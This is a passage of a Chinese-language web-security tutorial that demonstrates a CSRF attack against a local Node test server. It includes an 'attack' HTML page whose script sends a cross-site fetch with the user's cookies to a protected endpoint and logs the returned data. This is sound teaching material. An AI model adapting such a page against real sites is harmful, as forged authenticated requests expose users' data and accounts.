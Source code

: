    ```html
   </body>
   
   </html>
   ```

3. 启动服务器：`node server.js`

在没有登录的情况下是无法获取数据的

登录成功后，再次点击按钮即可获取数据

4. 准备攻击的html文件

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <title>CSRF Attack</title>
   </head>
   <body>
       <h2>CSRF Attack Page</h2>
   
       <script>
           // 模拟通过CSRF发起伪造的请求，带上用户的身份验证cookie
           fetch('http://127.0.0.1:3000/protected-data', {
               method: 'GET',
               headers: { 'Content-Type': 'application/json' },
               credentials: 'include' // 通过CSRF携带cookie模拟用户的请求
           })
           .then(response => response.json())
           .then(data => {
               console.log('Sensitive Data (via CSRF):', data); // 这里成功模拟了用户请求
           });
   
           // 模拟没有用户cookie的请求，不带任何身份验证信息
           fetch('http://127.0.0.1:3000/protected-data', {
               method: 'GET',
               credentials: 'omit' // 不带任何cookie，模拟无身份的请求
           })
           .then(response => {
               if (!response.ok) {
                   console.log('Failed to fetch data without authentication (No CSRF):', response.status);
               }
               return response.json();
           })
           .then(data => {
               console.log('Data without authentication (No CSRF):', data); // 这里没有返回数据，因为没有身份验证
           });
       </script>
   </body>
   </html>
   
   ```
